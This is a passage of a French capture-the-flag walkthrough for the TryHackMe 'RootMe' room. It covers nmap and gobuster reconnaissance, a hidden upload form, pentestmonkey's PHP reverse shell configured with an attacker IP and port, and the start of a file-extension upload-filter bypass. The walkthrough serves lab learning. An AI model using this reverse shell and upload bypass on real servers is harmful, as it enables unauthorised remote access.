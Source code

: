 # **[ROOTME](https://tryhackme.com/r/room/rrootme)**

## TACHE 1 - Deploy the machine

Suivez simplement les instructions pour déployer la machine virtuelle.

<br>

## TACHE 2 - Reconnaissance
<pre>
First, let's get information about the target.<br>Commençons par obtenir des informations sur la cible.
</pre>

### Question 1
<pre>
Scan the machine, how many ports are open ?<br>Scannez la machine, combien de ports sont ouverts ?
</pre>

### Question 2
<pre>
What version of Apache is running?<br>Quelle version d'Apache est active?
</pre>

### Question 3
<pre>
What service is running on port 22?
Quel service est exécuté sur le port 22?
</pre>

J'ai regroupé les trois premières questions car nous pouvons y répondre avec une seule commande:

> [!TIP]
> Question Hint
>
> Use nmap to do a port scan.
> <br>Utilisez nmap pour effectuer le scanne de port

<br>En cherchant dans le manuel de la commande `nmap`, on voit que l'option `-sV` permet de scanner les ports ouverts et d'afficher les informations relatives aux services ainsi comme leur version:

```bash
nmap -sV 10.10.182.207
```

> [!WARNING]
> Adaptez la commande à l'adresse IP de VOTRE machine virtuelle. Elle change à chaque connexion, il est donc peu probable qu'elle soit identique à la mienne au moment où j'écris ce guide.

Réponse 1: <b>x</b>
<br>Réponse 2: <b>x.x.xx</b>
<br>Réponse: <b>xxx</b>

<br>

### Question 4
<pre>
What is the hidden directory?
Quel est le repertoire caché?
</pre>

Pour répondre à cette question, utilisez l'astuce qui ne nécessite pas de réponse:

> [!TIP]
> gobuster dir -u MACHINE_IP -w WORDLIST_PATH

Remplacez `MACHINE_IP` par l'IP de votre machine virtuelle et `WORDLIST_PATH` par le chemin de l'un des wordlists, qui, pour Gobuster, se trouvent dans: `/usr/share/wordlists/dirbuster/`

Réponse: <b>/xxxxx/</b>

<br>

## TACHE 3 - Getting a Shell
<pre>
Find a form to upload and get a reverse shell, and find the flag.
Trouvez un formulaire pour télécharger et obtenir un shell inversé et trouvez le drapeau.
</pre>

> [!TIP]
> Search for "file upload bypass" and "PHP reverse shell".
> Recherchez « file upload bypass » et « PHP reverse shell ».

<br>Commencez par ouvrir Firefox sur la machine distante et rentrez son IP:

<pre>
http://MACHINE_IP
</pre>

<br>Vous verrez une page d'accueil avec simplement écrit: 

<pre>
root@rootme:~#
Can you root me?
</pre>

Vous ne pouvez rien faire sur la page d'accueil mais il est toujours bon de regarder ce qui se cache dans le code-source avec `CTRL+U`:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/home.css">
    <script src="js/maquina_de_escrever.js"></script>
    <title>HackIT - Home</title>
</head>
<body>
    <div class="main-div">
        <p class="title">root@rootme:~#</p>
        <p class="description">
            Can you root me?
        </p>
    </div>

    <!--  -->

    <script>
        const titulo = document.querySelector('.title');
        typeWrite(titulo);
    </script>
</body>
</html>
```

Bon, je n'ai jamais dit que c'était toujours intéressant mais c'est un réflexe à avoir systématiquement. Mais ce code ne nous apporte rien.
<br>Rendons nous dans le dossier caché que nous avons découvert avec Gobuster toute à l'heure:

<pre>
http://MACHINE_IP/dossier
</pre>

Ah, tiens, un formulaire de téléchargement ! Comme conseillé dans l'astuce:

<pre>
Select a file to upload:
Browse... No file selected
Upload
</pre>

Nous allons donc pouvoir uploader un script, plus précisément, un script de `reverse shell en php` puisque c'est une des contraintes de l'astuce.
<br>Après quelques recherches, il semble qu'il y en ait un qui soit souvent utilisé, celui de [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Rendez-vous dans le dossier de téléchargement de la machine distante et téléchargez le script:

```bash
cd Downloads
```
```bash
git clone https://github.com/pentestmonkey/php-reverse-shell
```

Puis rendez-vous dans le dossier:

```bash
cd php-reverse-shell
```

Il va falloir modifier l'IP et le port dans le fichier `php-reverse-shell.php`. 
<br>Editez-le avec `nano` et modifiez ces lignes comme suit:

```php
[...]

set_time_limit (0);
$VERSION = "1.0";
$ip = 'YOUR_MACHINE_IP';  // CHANGE THIS
$port = 80;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

[...]
```

<br>Nous utilisons le serveur web de la machine distante, qui est sur le port 80.
<br>Il faut, ensuite, rendre le fichier exécutable:

```bash
chmod +x php-reverse-shell.php
```

Vous pouvez maintenant uploader le fichier php... BIM ! Une erreur !
<br>Elle est dûe au fait que les fichiers `php` ne sont pas autorisés à être téléchargés. Aucun problème, nous allons essayer de contourner le téléchargement en modifiant l'extension du fichier.